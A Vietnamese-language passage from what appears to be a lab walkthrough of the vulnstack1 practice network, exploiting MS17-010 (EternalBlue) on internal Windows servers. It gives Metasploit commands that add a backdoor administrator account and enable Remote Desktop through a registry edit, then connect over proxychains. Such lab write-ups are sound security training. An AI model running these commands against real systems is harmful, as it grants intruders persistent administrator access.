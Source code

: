 ```
| Windows Server 2008   | Internal Network  : 192.168.52.138        | OWA (domain controller) |

Sau khi scan thấy cả 2 máy chủ internal bên trong đều open port 445 nên ta sẽ thử một làn sóng quét Eternal Blue
Dường như cả 2 máy chủ internal đều bị ảnh hưởng

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/56.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/57.jpg)

Cũng có thể sử dụng nmap với script : --script=smb-vuln-ms17-010.nse

**Khai thác**

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/58.jpg)

Mặc dù vậy nhưng thử nhiều lần tôi vẫn không để lấy được shell của cả 2 máy chủ đó

Tại thời điểm này tôi vẫn cố gắng thử bằng nhiều cách. Tôi sử dụng một module khác cho phép chạy các command riêng lẻ tới máy chủ. Nó thành công. Thay vì lấy shell ta có thể tạo user mới trên hệ thống và RDP trực tiếp tới

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/59.jpg)

Đầu tiên tôi sẽ tạo một người dùng mới\
```
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
set command net user quac quac@1234 /add
```
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/60.jpg)

Sau đó là add người dùng đó vào group admin
```
set command net localgroup administrators quac /add
```
Xác nhận người dùng đã được thêm vào
```
set command net localgroup administrators
```
Cuối cùng là mở port 3389 cho phép Remote Desktop
```
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```
Trước và sau khi open 3389

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/61.jpg)

Giờ đây tôi có thể remote tới máy chủ này thông qua proxychains

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/62.jpg)

Thành công remote tới máy chủ Windows server 2003 - ROOT-TVI862UBEH

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/63.jpg)

Thật lạ. Trên máy chủ domain controller 192.168.52.138. Tôi có thể thêm tài khoản, open port 3389 nhưng không thể remote desktop đến được:

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/64.jpg)

Mở port thành công:

```